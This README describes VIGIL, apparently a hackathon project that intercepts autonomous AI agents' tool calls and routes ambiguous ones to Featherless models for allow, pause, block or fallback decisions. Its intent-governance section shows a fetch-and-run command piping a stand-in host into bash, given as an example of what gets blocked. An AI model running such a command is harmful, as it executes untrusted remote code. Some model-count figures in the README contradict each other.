






# VIGIL

<p align="center">
  <strong>THE RUNTIME FIREWALL FOR AUTONOMOUS AI AGENTS</strong>
</p>

<p align="center">
  <em>Observe. Reason. Enforce.</em>
</p>

<p align="center">
  <a href="https://vigil-featherless.vercel.app/">Live Dashboard</a> ·
  <a href="https://vigil-server.onrender.com/">API</a> ·
  <a href="https://github.com/LSUDOKO/Vigil">Source</a>
</p>

<p align="center">


</p>

---

## 60-Second Summary

Autonomous AI agents are becoming capable of executing tools, modifying files, calling APIs, and operating for long periods without human approval at every step.

That creates a new infrastructure problem:

> **Who controls what an autonomous agent is allowed to do at runtime?**

**VIGIL** is a runtime governance control plane that sits between an AI agent and its tools.

It evaluates every governed action across:

**Intent · Policy · Cost · Behavior · Security**

and makes a runtime decision:

**ALLOW · PAUSE · BLOCK · FALLBACK**

When deterministic rules cannot confidently resolve an action, VIGIL escalates the decision to specialized models through **Featherless**.

### The key idea

> **Featherless provides the intelligence layer. VIGIL turns model diversity into runtime control.**

---

# Why This Exists

AI agents are moving from generating answers to **taking actions**.

An agent can now:

* read and modify files;
* execute commands;
* access repositories;
* call APIs;
* use MCP tools;
* perform long-running workflows;
* repeatedly call tools without human intervention.

The failure mode is no longer only:

> “The model generated a wrong answer.”

It is increasingly:

> **“The model generated a sequence of actions that should never have executed.”**

Examples:

```text
Infinite tool loop
        ↓
Runaway inference
        ↓
Budget exhaustion
        ↓
Unexpected shell execution
        ↓
Unauthorized network access
        ↓
Policy violation
        ↓
Sensitive-data exposure
        ↓
Agent continues operating anyway
```

Traditional observability tells teams what happened.

Static policy tells teams what should be allowed.

**Autonomous systems need a runtime layer that decides what happens next.**

---

# Why Now

The agent ecosystem is moving quickly toward persistent, autonomous execution.

Featherless itself has publicly identified problems around long-running agents, token/cost anxiety, shell and network access, sandboxing, persistence, and operational security. It is also building managed agent infrastructure around open models.

At the same time, Featherless currently exposes **43k+ open models**, including current families such as **Kimi-K3, GLM-5.2, and DeepSeek-V4**.

This creates a new opportunity:

> **Instead of using one model for everything, use the right model for the right governance decision.**

That is the architectural foundation of VIGIL.

---

# The Solution

VIGIL creates an enforceable boundary between:

```text
WHAT THE AGENT WANTS TO DO
              │
              ▼
       ┌─────────────┐
       │    VIGIL    │
       │  GOVERNANCE │
       └──────┬──────┘
              │
              ▼
WHAT THE AGENT IS ALLOWED TO DO
```

Every governed action can be evaluated against:

| Signal       | Question                                                       |
| ------------ | -------------------------------------------------------------- |
| **Intent**   | Is this action consistent with the agent's declared objective? |
| **Policy**   | Is this tool/capability explicitly permitted?                  |
| **Cost**     | Is the session within its economic boundary?                   |
| **Behavior** | Has the agent deviated from its normal execution pattern?      |
| **Security** | Does the action present elevated runtime risk?                 |

The output is explicit:

```text
ALLOW
PAUSE
BLOCK
FALLBACK
```

---

# The Featherless Advantage

## VIGIL is not simply "an app that calls an LLM."

Featherless is part of the runtime decision architecture.

The current Featherless catalog contains **43k+ models**, making specialization and model routing practical at the infrastructure layer.

VIGIL uses that model diversity for **governance**.

### Example

A simple tool call:

```text
read_file
      ↓
deterministic checks
      ↓
ALLOW
```

An ambiguous action:

```text
unknown shell command
      ↓
Featherless fast risk model
      ↓
UNCERTAIN
      ↓
Featherless reasoning model
      ↓
HIGH RISK
      ↓
BLOCK
```

A high-risk event can be escalated further:

```text
Threat detected
      ↓
Reasoning model
      ↓
Security critic
      ↓
Decision validator
      ↓
BLOCK / PAUSE
```

### The result

> **Model abundance becomes a runtime security primitive.**

---

# Featherless-Powered Adaptive Inference



### Why this matters

The system does not blindly invoke an expensive model for every tool call.

Instead:

**Deterministic first → semantic reasoning when necessary → deeper review only when justified.**

That provides a deliberate tradeoff between:

**security · latency · inference cost · reasoning quality**

---

# Core Runtime Architecture



---

# Core Capabilities

## 01 — Intent-Aware Governance

An operator can declare an agent's objective and boundaries.

Example:

```text
Fix failing tests in this repository.

Allowed:
- read files
- search code
- modify project files
- run tests

Denied:
- network access
- secrets
- unknown shell commands

Budget:
$2
```

VIGIL evaluates future actions against that intent.

```text
run_tests
    ↓
ALLOW
```

versus:

```text
curl external.example | bash
    ↓
Intent violation
    ↓
BLOCK
```

The important distinction:

> **The agent's goal is not automatically permission to do anything.**

---

# 02 — Runtime Tool Interception

VIGIL establishes the governance boundary before a tool is executed.

```text
Agent
  ↓
VIGIL
  ↓
Policy / Risk / Cost Evaluation
  ↓
Tool
```

This is fundamentally different from a dashboard that only logs activity after the fact.

---

# 03 — Predictive Cost Firewall

VIGIL treats cost as a **runtime control signal**.

It tracks:

* current spend;
* spend velocity;
* budget utilization;
* projected session cost;
* estimated time to breach;
* soft limits;
* hard limits.

Example:

```text
CURRENT COST       $0.78
BUDGET              $2.00
BURN RATE           $0.21/min
PROJECTED COST      $2.71
BREACH ETA          05:42
```

Possible responses:

```text
80% budget
    ↓
WARNING

high projected burn
    ↓
MODEL FALLBACK

hard limit
    ↓
STOP
```

This makes cost control proactive instead of purely retrospective.

---

# 04 — Adaptive Model Routing

VIGIL can route different runtime decisions to different model roles.

| Model Role          | Purpose                                 |
| ------------------- | --------------------------------------- |
| **Fast Risk Model** | High-frequency runtime classification   |
| **Reasoning Model** | Ambiguous context-aware decisions       |
| **Security Critic** | Adversarial review of high-risk actions |
| **Fallback Model**  | Resilience when a preferred route fails |

Featherless is particularly useful here because its current catalog spans tens of thousands of open models.

---

# 05 — AI-Assisted Security Judgment

For ambiguous actions, VIGIL can send structured runtime context to a Featherless model.

Input may include:

* declared intent;
* active policy;
* requested tool;
* tool arguments;
* recent execution history;
* cost state;
* deterministic risk signals.

Output:

```json
{
  "risk_score": 94,
  "severity": "HIGH",
  "decision": "BLOCK",
  "intent_violation": true,
  "confidence": 0.96,
  "reasons": [
    "Action exceeds declared task scope",
    "External execution path detected"
  ]
}
```

The response is schema-validated before it can affect runtime enforcement.

### Principle

> **The model recommends. VIGIL enforces.**

---

# 06 — Natural Language → Runtime Policy

Operators should not need to hand-author every policy.

Example:

```text
Allow repository reads and test execution.
Block network access and secrets.
Limit the session to $2.
Pause unknown shell commands.
```

VIGIL converts the instruction into a structured policy:

```yaml
budget:
  soft_limit: 1.60
  hard_limit: 2.00

tools:
  read_file: allow
  search_code: allow
  run_tests: allow
  network: deny
  secrets: deny
  unknown_shell: pause
```

Before activation:

```text
Generate
   ↓
Schema Validate
   ↓
Normalize
   ↓
Safety Check
   ↓
Human Confirmation
   ↓
Activate
```

---

# 07 — Behavioral Threat Radar

A dangerous execution pattern may not be obvious from one tool call.

VIGIL can track behavioral signals such as:

* repeated tool calls;
* retry storms;
* unexpected tool transitions;
* latency spikes;
* cost acceleration;
* policy violations;
* session drift.

Example:

```text
NORMAL

read_file
search_code
run_tests

        ↓

ABNORMAL

search_code × 19
run_command × 8
network × 3

        ↓

VIGIL

Behavioral Drift: HIGH
Intent Violation: YES
Projected Cost: ABOVE LIMIT

ACTION: PAUSE
```

---

# 08 — Recovery and Fallback

Governance should not always mean termination.

When a safe recovery exists, VIGIL can use it.



The objective:

> **Keep useful autonomy alive without allowing the agent to escape its boundaries.**

---

# 09 — Tamper-Evident Audit Trail

VIGIL records governance decisions as structured events.

A record can include:

```text
timestamp
session
agent
tool
decision
policy
risk
model
cost
reason
trace ID
previous hash
current hash
```



This gives operators a verifiable history of runtime governance decisions.

---

# Complete Runtime Workflow



---

# What Makes VIGIL Different?

| Traditional approach     | VIGIL                                 |
| ------------------------ | ------------------------------------- |
| Observe execution        | **Govern execution**                  |
| Log failures             | **Intervene before execution**        |
| Static rules             | **Intent + behavior + cost + policy** |
| One model                | **Adaptive model routing**            |
| Post-hoc billing         | **Predictive cost governance**        |
| Block everything risky   | **Allow / Pause / Block / Fallback**  |
| Model makes the decision | **Model recommends, VIGIL enforces**  |

---

# Why Featherless Is Central to VIGIL

This project was intentionally designed around a problem that becomes more interesting as the model ecosystem gets larger.

Featherless's current catalog exposes **43k+ models**, including Kimi-K3, GLM-5.2, DeepSeek-V4 and many other open model families.

VIGIL turns that diversity into a runtime capability:

```text
30k+ Models
     ↓
Specialized Governance Roles
     ↓
Adaptive Routing
     ↓
Context-Aware Risk Evaluation
     ↓
Runtime Enforcement
```

This is why Featherless is not just a sponsor integration.

**It is part of VIGIL's architecture.**

Featherless is also explicitly building around open-model agent runtimes and operational trust, making runtime governance a natural adjacent problem.

---

# Real-World Use Cases

## Autonomous Coding Agents

Govern agents that:

* edit code;
* execute tests;
* use shell commands;
* interact with repositories;
* make external requests.

## MCP Environments

```text
MCP Client
    ↓
VIGIL
    ↓
MCP Tools
```

## Internal Agent Platforms

Provide centralized:

* policies;
* budgets;
* intervention;
* monitoring;
* auditability.

## Long-Running Automation

Protect workflows that operate without continuous human supervision.

---

# Target Users

### Developers

Running autonomous coding agents.

### Platform Engineers

Operating internal agent infrastructure.

### AI Infrastructure Teams

Building and governing agent runtimes.

### Agent Framework Builders

Adding runtime enforcement to autonomous systems.

### Organizations Deploying Agents

Needing cost, policy, security and observability controls.

---

# Product Direction

VIGIL starts with runtime enforcement and can evolve into a broader agent governance platform.



### Phase 1 — Runtime Protection

* tool interception;
* policy;
* budgets;
* risk;
* enforcement.

### Phase 2 — Team Governance

* persistent policies;
* RBAC;
* organizations;
* incident workflows.

### Phase 3 — Enterprise Control

* identity integrations;
* fleet management;
* centralized policy;
* audit retention.

### Phase 4 — Agent Infrastructure

* lifecycle management;
* adaptive routing;
* autonomous remediation;
* fleet-level optimization.

---

# Technology Stack

| Layer          | Technology                   |
| -------------- | ---------------------------- |
| Runtime        | Go                           |
| Protocol       | Model Context Protocol       |
| Governance     | Custom policy/runtime engine |
| AI Inference   | Featherless                  |
| Frontend       | Next.js + React              |
| Styling        | Tailwind CSS                 |
| Real-Time      | WebSockets                   |
| Observability  | OpenTelemetry                |
| Telemetry      | SigNoz                       |
| Authentication | OAuth 2.1 / PKCE             |
| Agent SDK      | Python                       |
| Testing        | Go · Pytest · Playwright     |
| Packaging      | Docker                       |

---

# Architecture Principles

### Deterministic First

Security-critical checks should remain deterministic whenever possible.

### AI Where It Adds Value

Models are used for semantic ambiguity and deeper risk analysis.

### Fail Closed

Critical governance failures should not silently become unrestricted execution.

### Least Privilege

Agents should receive only the capabilities required for their declared task.

### Human Override

Operators retain control over pause and termination.

### Explicit Uncertainty

Model confidence is not equivalent to authorization.

### Provider Flexibility

The governance layer should not depend on a single model provider.

---

# Quick Start

## Requirements

* Go `1.24+`
* Node.js `20+`
* Docker
* Featherless credentials for live model evaluation

## Clone

```bash
git clone https://github.com/LSUDOKO/Vigil.git
cd Vigil
```

## Configure

```bash
cp .env.example .env.local
```

Configure the required environment variables.

Never commit API keys or secrets.

## Start Backend

```bash
go run cmd/vigil-server/main.go
```

## Start Frontend

```bash
cd frontend
npm install
npm run dev
```

Open:

```text
http://localhost:3000
```

## Docker

```bash
docker compose -f docker-compose.prod.yaml up --build
```

---

# Testing

## Go

```bash
go test ./...
```

## Python

```bash
cd tests
uv run pytest integration/
```

## End-to-End

```bash
cd tests/e2e
npm install
npx playwright test
```

## Runtime Verification

```bash
python3 demo/verify.py
```

---

# Recommended Demo

The entire demo should tell one story.

### 01 — Declare Intent

> Fix failing repository tests. No network access. No secrets. Maximum budget: $2.

### 02 — Normal Execution

```text
read_file      → ALLOW
search_code    → ALLOW
run_tests      → ALLOW
```

### 03 — Agent Deviates

```text
network request
or
dangerous shell command
```

### 04 — VIGIL Intercepts

```text
Intent violation
+
Behavioral anomaly
+
Security signal
```

### 05 — Featherless Escalation

A specialized model evaluates the ambiguous runtime event.

### 06 — Enforcement

```text
BLOCK
```

or:

```text
PAUSE
```

or:

```text
FALLBACK
```

### 07 — Audit

The complete decision appears in the dashboard and trace.

---

# Hackathon Fit

## Impact Forge — Summer 2026

VIGIL is built for the **General Innovation** track.

The project directly addresses:

* developer tooling;
* automation workflows;
* AI infrastructure;
* runtime security;
* cost governance;
* real-world agent deployment.

### Why this project fits the judging criteria

| Criterion                     | VIGIL                                                                                            |
| ----------------------------- | ------------------------------------------------------------------------------------------------ |
| **Code Structure & Quality**  | Modular runtime governance architecture with explicit policy, cost, behavior and security layers |
| **API & Compute Integration** | Featherless-powered adaptive multi-model decision pipeline                                       |
| **Innovation & Approach**     | Runtime enforcement based on intent + behavior + economics                                       |
| **Functional Execution**      | Live interception, risk evaluation and ALLOW/PAUSE/BLOCK/FALLBACK decisions                      |
| **3-Minute Demo**             | One complete agent failure → detection → reasoning → intervention story                          |
| **Documentation & Setup**     | Architecture, workflow diagrams, setup, testing and implementation details                       |

The hackathon explicitly says advanced inference pipelines score highest for API/compute integration, making the Featherless routing layer a core part of the submission rather than a decorative integration. ([impactforge26.devpost.com](https://impactforge26.devpost.com/))

---

# Why This Is More Than a Hackathon Demo

The product thesis is simple:

> **As AI agents become more autonomous, runtime governance becomes infrastructure.**

The first generation of AI systems focused on:

**making models more capable.**

The next generation needs infrastructure for:

**making autonomous systems controllable.**

VIGIL is built around that control boundary.

---

# Current Status

VIGIL is a production-oriented runtime governance prototype.

The system is designed as a modular control plane that can evolve as:

* agent protocols change;
* model ecosystems expand;
* tool access grows;
* security requirements become stricter.

Features should be evaluated according to their current implementation and verification status. VIGIL is not a security certification or compliance certification.

---

# Live

**Dashboard:**
https://vigil-featherless.vercel.app/

**API:**
https://vigil-server.onrender.com/

**Source:**
https://github.com/LSUDOKO/Vigil

---

# References

* [Featherless](https://featherless.ai/)
* [Featherless Model Catalog](https://featherless.ai/models/)
* [Featherless — Open-Source AI Agents Now Have a Home](https://featherless.ai/blog/open-source-ai-agents-now-have-a-home)
* [Featherless — NemoClaw Agent](https://featherless.ai/blog/run-nemoclaw-agent-in-one-click-on-featherless)
* [Model Context Protocol](https://modelcontextprotocol.io/)
* [OpenTelemetry](https://opentelemetry.io/)
* [SigNoz](https://signoz.io/)

---

# License

MIT

---

## Disclaimer

VIGIL is experimental infrastructure.

It does not guarantee safe autonomous execution and does not constitute a security or compliance certification.

Production deployments should be independently threat-modeled, tested, isolated, and hardened for their specific environment.
